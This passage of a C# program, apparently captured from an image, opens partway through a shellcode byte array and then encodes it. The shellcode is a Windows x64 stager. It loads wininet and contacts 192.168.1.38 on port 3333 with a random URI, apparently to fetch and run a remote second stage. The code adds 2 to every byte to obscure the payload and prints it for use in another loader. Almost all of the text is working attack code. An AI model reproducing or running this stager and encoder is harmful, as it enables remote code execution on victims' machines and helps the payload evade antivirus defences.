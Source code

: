 ```csharp
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0d,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x2e,
0x33,0x38,0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x05,0x0d,0x00,0x00,0x4d,
0x31,0xc9,0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,0x00,
0x00,0x00,0xff,0xd5,0xe8,0x43,0x00,0x00,0x00,0x2f,0x69,0x65,0x77,0x5a,0x56,
0x75,0x65,0x41,0x76,0x39,0x35,0x4a,0x6b,0x30,0x69,0x52,0x4b,0x34,0x69,0x44,
0x67,0x41,0x78,0x54,0x6a,0x49,0x58,0x53,0x68,0x32,0x35,0x74,0x51,0x55,0x35,
0x36,0x4f,0x39,0x68,0x77,0x36,0x66,0x44,0x48,0x49,0x6f,0x78,0x6d,0x5f,0x73,
0x38,0x7a,0x6c,0x4a,0x6d,0x72,0x76,0x46,0x71,0x51,0x41,0x4c,0x67,0x66,0x59,
0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x00,
0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,
0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,0x89,0xf1,0x6a,0x1f,
0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,
0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,0x31,0xc0,0x53,
0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,
0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,
0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,0x59,0x6a,0x40,
0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,0x00,0x00,0x49,
0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0x93,0x53,0x53,
0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,
0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,0x00,0x00,0x00,0xff,
0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,0xc3,
0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,
0xa2,0x56,0xff,0xd5 };
    byte[] encoded = new byte[buf.Length];
    for (int i = 0; i < buf.Length; i++)

    {
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
    }
    uint counter = 0;
    StringBuilder hex = new StringBuilder(encoded.Length * 2);
    foreach (byte b in encoded)
    {
    hex.AppendFormat("{0:D}, ", b);
    counter++;
    if (counter % 50 == 0)
    {
    hex.AppendFormat("_{0}", Environment.NewLine);
    }
    }
    Console.WriteLine("The payload is: " + hex.ToString());
    }
    }
}
```
<br>
